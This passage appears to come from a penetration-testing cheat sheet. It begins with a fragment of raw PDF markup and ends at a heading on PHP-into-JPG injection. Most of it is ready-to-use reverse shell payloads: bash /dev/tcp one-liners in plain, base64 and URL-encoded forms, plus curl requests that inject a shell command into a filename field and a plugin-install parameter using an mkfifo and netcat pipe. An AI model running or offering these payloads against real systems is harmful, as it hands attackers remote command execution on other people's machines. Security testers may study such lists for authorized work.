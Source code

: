 ```c
stream
BT
/TI_0 1 Tf
14 0 0 14 10.000 753.976 Tm
0.0 0.0 0.0 rg
(PDF Document) Tj
ET
endstream
endobj
trailer
<<
 /Root 1 0 R
>>
%%EOF
```

## Bash Reverse Shell

```c
$ bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
$ bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
$ echo -n '/bin/bash -c "bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1"' | base64
```

### URL Encoded

```c
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<LHOST>%2F<LPORT>%200%3E%261%27
```

## curl Reverse Shell

```c
$ curl --header "Content-Type: application/json" --request POST http://<RHOST>:<RPORT>/upload --data '{"auth": {"name": "<USERNAME>", "password": "<PASSWORD>"}, "filename" : "& echo "bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1"|base64 -d|bash"}'
```

### With JWT Token

```c
$ curl -i -s -k -X $'POST' -H $'Host: api.<RHOST>' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzIyMjk2LCJleHAiOjE2MzI5MTQyOTZ9.y8GGfvwe1LPGOGJUVjmzMIsZaR5aok60X6fmEnAHvMg' -H $'Content-Type: application/json' -H $'Origin: http://api.<RHOST>' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f)\",\"port\":\"1337\"\}' $'http://api.<RHOST>/admin/plugins/install' --proxy http://127.0.0.1:8080
```

## Exiftool

### PHP into JPG Injection
